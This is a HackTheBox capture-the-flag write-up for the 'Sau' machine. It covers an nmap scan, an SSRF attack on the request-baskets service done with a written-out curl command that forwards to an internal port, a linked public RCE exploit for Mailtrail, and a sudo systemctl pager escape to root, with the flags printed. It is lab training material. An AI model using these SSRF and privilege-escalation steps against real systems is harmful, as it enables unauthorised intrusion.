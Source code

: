```yaml
---
categories: [HackTheBox]
tags: [PrivEsc, Public Exploit, SSRF]
image:
  path: /Vulnhub-Files/img/Sau/front.png
  alt: https://www.hackthebox.com/achievement/machine/595651/551
---
```



![Untitled](/Vulnhub-Files/img/Sau/Untitled.png)

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Sau]
└─$ sudo nmap -sC -sV -T4 10.10.11.224 -oN Nmap_results.txt
[sudo] password for kali: 
Starting Nmap 7.94 ( https:/nmap.org ) at 2023-08-29 12:45 IST
Nmap scan report for 10.10.11.224
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 29 Aug 2023 07:17:19 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 29 Aug 2023 07:16:43 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 29 Aug 2023 07:16:45 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data.
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sau/Untitled%201.png)

After clicking on create button →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%202.png)

```bash
Basket 'nxhtzfm' is successfully created!

Your token is: 8fREKdr_kiHy5fuFJce3w5JPrnQ5zlnnhzTVJ4CUo62O
```
{: .nolineno}
{: .nolineno}

I got a dashboard which keeps log of the URL activity →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%203.png)

Through web recon I got to know about the vulberability that this site is affected to so I got this →

[Exploit](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3/)

Now I set the options and all the Settings options through curl with the new directory named as `shell` →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Sau]
└─$ curl --location 'http:/10.10.11.224:55555/api/baskets/shell' --header 'Content-Type: application/json' --data '{"forward_url": "http:/127.0.0.1:80/", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
{"token":"ZLVtatdn0yuct7Sy8iOpI9t0VryjYQL68vTkd-TX8HMT"}
```
{: .nolineno}
{: .nolineno}

I accessed the `http:/10.10.11.224:55555/api/baskets/shell`  page I got this 

![Untitled](/Vulnhub-Files/img/Sau/Untitled%204.png)

I also tried to set these below options on curl →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%205.png)

Now Lets access the url directly `http:/10.10.11.224:55555/shell`and I got this →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%206.png)

Now with some web recon I find out that this `Mailtrail (v0.53)` is vulnerable and can give me RCE so I used this exploit →

[Exploit](https://www.exploit-db.com/exploits/51676/)

![Untitled](/Vulnhub-Files/img/Sau/Untitled%207.png)

I got the shell now its time for dig in into the shell for root access →

```bash
puma@sau:~$ ls -al
ls -al
total 36
drwxr-xr-x 4 puma puma 4096 Aug 29 05:24 .
drwxr-xr-x 3 root root 4096 Apr 15 09:17 ..
lrwxrwxrwx 1 root root    9 Apr 14 17:46 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15 09:42 .cache
drwx------ 3 puma puma 4096 Apr 15 09:51 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
-rw------- 1 puma puma  556 Aug 29 05:24 .viminfo
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Aug 29 04:08 user.txt
puma@sau:~$ cat user.txt
cat user.txt
9d18067025cba80f61b19105560f6662
puma@sau:~$ 
```
{: .nolineno}
{: .nolineno}

Now lets see how this user can get me to root →

```bash
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:~$
```
{: .nolineno}
{: .nolineno}

Now from gtfobin site I got the payload that gona get me root →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%208.png)

Now  I used it and got this →

```bash
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Sau/Untitled%209.png)

```bash
# cd /root
# ls -al
total 44
drwx------  6 root root 4096 Aug 29 09:58 .
drwxr-xr-x 20 root root 4096 Jun 19 09:41 ..
lrwxrwxrwx  1 root root    9 Apr 15 09:35 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  3 root root 4096 Jun 19 09:41 .cache
-rw-------  1 root root   31 Aug 29 09:58 .lesshst
drwxr-xr-x  3 root root 4096 Jun  8 11:03 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Apr 14 17:38 .ssh
-rw-r--r--  1 root root   39 Jun  8 11:05 .vimrc
lrwxrwxrwx  1 root root    9 Apr 15 09:35 .wget-hsts -> /dev/null
drwxr-xr-x  4 root root 4096 Jun 19 09:41 go
-rw-r-----  1 root root   33 Aug 29 04:08 root.txt
#
# cat root.txt
2754674b979d814022ef84fa0cdd965b
#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }